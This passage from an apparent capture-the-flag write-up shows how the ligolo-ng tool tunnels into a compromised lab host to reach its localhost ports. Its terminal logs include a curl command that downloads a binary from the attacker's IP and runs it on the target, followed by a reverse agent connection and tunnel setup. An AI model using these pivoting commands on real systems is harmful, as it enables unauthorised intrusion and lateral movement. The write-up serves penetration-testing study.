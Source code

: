 #### Use ligolo-ng to access ports on target's localhost

Use **ligolo-ng** to create a tunnel in order to access the ports on target's localhost (Socks proxy won't be able to do it properly)

> Refer - https://github.com/nicocha30/ligolo-ng/wiki/Localhost

Start server

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/tunnel/ligolo-ng]
└─$ cd /opt/sectools/tunnel/ligolo-ng/; sudo ./proxy -laddr 0.0.0.0:8443 -selfcert
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!
WARN[0000] Using self-signed certificates
WARN[0000] TLS Certificate fingerprint for ligolo is: 537B3F57398B647FC2CEA60A9FD9C1B92BB047E5ABCA5D945E39208E423F2D4F
INFO[0000] Listening on 0.0.0.0:8443
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

  Made in France ♥            by @Nicocha30!
  Version: 0.7.2-alpha

ligolo-ng » 
```

Start agent

```bash
michael@sightless:~$ curl http://10.10.14.75/ligolo -o /tmp/ligolo && chmod +x /tmp/ligolo
michael@sightless:~$ /tmp/ligolo -connect 10.10.14.75:8443 -ignore-cert
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established                        addr="10.10.14.75:8443"
```

Setup interface, tunnel and route

```bash
ligolo-ng » session
error: no sessions available
ligolo-ng » INFO[3250] Agent joined.                                 name=michael@sightless remote="10.10.11.32:39842"
ligolo-ng »
ligolo-ng » session
? Specify a session : 2 - michael@sightless - 10.10.11.32:39842 - 9a105117-b198-4d0d-bedb-c9f56e32c90b
[Agent : michael@sightless] » ifcreate --name ligolo
INFO[3278] Creating a new "ligolo" interface...
INFO[3278] Interface created!
[Agent : michael@sightless] » tunnel_start --tun ligolo
[Agent : michael@sightless] » INFO[3299] Starting tunnel to michael@sightless
[Agent : michael@sightless] »
```

